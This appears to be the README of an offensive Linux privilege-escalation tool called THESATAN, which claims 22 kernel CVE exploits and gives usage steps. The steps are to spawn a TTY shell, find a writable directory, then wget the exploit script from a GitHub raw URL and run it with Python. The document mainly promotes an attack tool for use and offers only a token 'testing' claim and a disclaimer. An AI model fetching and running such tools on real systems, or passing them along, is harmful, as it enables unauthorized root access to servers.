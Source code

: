 ***☣THESATAN - Automation Privilage Escalation for Linux.***
> This tool made for testing a Privilage Escalation on server.

- 22 CVE Ready For Testing.
- Available for kernel 3.x.x / 4.x.x
- Work with python2.7 / python3+ also gcc installed on the machine.

**Usage:**
- Spawn A tty Shell In Terminal.
- You must find accessible directory without 'permission denied', then create your own folder.
- **Note: ❌Don't run THESATAN in public access or you will destroy yourself!**

**- Python2.7**
`wget https://raw.githubusercontent.com/warmode666/thesatan/main/thesatan.py`
`python thesatan.py`

**- Python3.x**
`wget https://raw.githubusercontent.com/warmode666/thesatan/main/thesatan.py`
`python3 thesatan.py`

***- Wait until THESATAN done.***

> [*] I am not responsible if you are doing something illegal using this program! 

[![THESATAN](https://i.ibb.co/8r23mBK/download.png "THESATAN")](https://i.ibb.co/8r23mBK/download.png "THESATAN")

[![SATAN](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")
